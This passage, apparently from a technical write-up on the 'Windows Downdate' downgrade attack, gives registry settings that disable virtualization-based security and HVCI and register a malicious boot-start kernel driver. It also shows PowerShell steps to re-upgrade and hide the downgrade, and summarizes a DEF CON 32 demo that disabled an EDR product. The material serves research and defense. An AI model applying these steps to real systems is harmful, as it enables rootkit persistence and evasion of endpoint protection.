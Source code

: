 With kernel access via unsigned driver:

```c
// Use driver to install persistent rootkit
// Example: Modify boot configuration to load malicious driver

// Disable VBS re-enablement on upgrade (requires multiple registry keys)
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\DeviceGuard
    EnableVirtualizationBasedSecurity = 0
    RequirePlatformSecurityFeatures = 0

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios\HypervisorEnforcedCodeIntegrity
    Enabled = 0

// Add driver to boot-start drivers (survives upgrade)
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MaliciousDriver
    Start = 0 // Boot-start
    Type = 1  // Kernel driver
```

#### Step 5: Re-Upgrade (Optional)

To avoid detection of old OS version:

```powershell
# Trigger upgrade to latest Windows version
# Malicious driver already loaded and persists
wusa.exe /uninstall /kb:9999999 /quiet /norestart

# Or force upgrade via Windows Update
Install-Module PSWindowsUpdate
Get-WindowsUpdate -AcceptAll -Install -AutoReboot
```

**Result**: System appears to run latest Windows version, but malicious driver persists.

## Real-World Implementation (2024)

### SafeBreach Research (DEF CON 2024)

Security researcher Alon Leviev demonstrated Windows Downdate at DEF CON 32:

**Proof of Concept**:
1. Downgraded Windows 11 23H2 to Windows 10 22H2 (VBS introduced in 21H1)
2. Loaded unsigned RTCore64.sys driver (blocked by HVCI)
3. Used driver to disable CrowdStrike Falcon EDR
4. Upgraded back to Windows 11 23H2
5. EDR remained disabled, VBS re-enabled but ineffective

**Key Vulnerability**: Windows Update integrity validation relies on:
- Digital signatures (bypassable with leaked certificates)
- Version comparisons (can be spoofed)
- Metadata validation (manipulable via DataStore.edb)
